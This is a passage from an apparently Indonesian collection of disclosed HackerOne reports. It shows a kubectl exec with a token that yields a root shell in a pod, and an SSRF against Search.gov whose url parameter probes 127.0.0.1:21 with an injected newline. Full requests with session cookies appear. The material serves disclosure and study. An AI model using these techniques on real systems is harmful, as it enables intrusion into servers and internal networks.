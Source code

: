 ```
$ kubectl --certificate-authority ca.crt --server https://███████ --token "█████.██████.█████████" exec -it ████████ -n ████████ -- /bin/bash

Defaulting container name to web.
Use 'kubectl describe pod/█████ -n █████' to see all of the containers in this pod.
root@████:/# id
uid=0(root) gid=0(root) groups=0(root)
root@████:/# ls
app  boot   dev  exec  key  lib64  mnt  proc  run   srv  start  tmp  var
bin  build  etc  home  lib  media  opt  root  sbin  ssl  sys    usr
root@█████:/# exit
```

Impact :

RCE

### #514224 SSRF in Search.gov via ?url= parameter

sumber : https://hackerone.com/reports/514224

Login ke _Search.gov_ dan klik _help manual_.

Request :

```
GET /help_docs?url=https%3A%2F%2Fsearch.gov%2Fmanual%2Faccount.html HTTP/1.1
Host: search.usa.gov
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:65.0) Gecko/20100101 Firefox/65.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: ja,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://search.usa.gov/account
X-NewRelic-ID: VgYAV1BRCxABU1JUBAUCXlI=
X-CSRF-Token: /2jDOc6aYEZA5VealIrF44qJZtY0iDiTsALu8HYA+OOIewuKHREwyh6M0wGa2WC9amTPX4vPMjj0YQIjys3nNA==
X-Requested-With: XMLHttpRequest
Connection: close
Cookie: _ga=GA1.2.924676610.1553290937; _gid=GA1.2.1047460386.1553290937; _ga=GA1.3.924676610.1553290937; _gid=GA1.3.1047460386.1553290937; _session_id=a0d5ecbfa9404ea9ffad4cb3ea771dea; user_credentials=1055608db95b714d9ae2ef05a4e1b83aa138ad5fca67422f02ca795ec2a74179bb15c610dd33f5e6f200be0de0e812a8fe3d59a0027b290b5377ab2a65da1f19%3A%3A5992
```

Jika menambahkan *http://127.0.0.1:21/?%0A* sebelum url parameter dan send request, didapati respon seperti berikut (450ms. (Port is closed))

Request :

```
GET /help_docs?url=http://127.0.0.1:21/?%0Ahttps%3A%2F%2Fsearch.gov%2Fmanual%2Faccount.html HTTP/1.1
(snip)

```
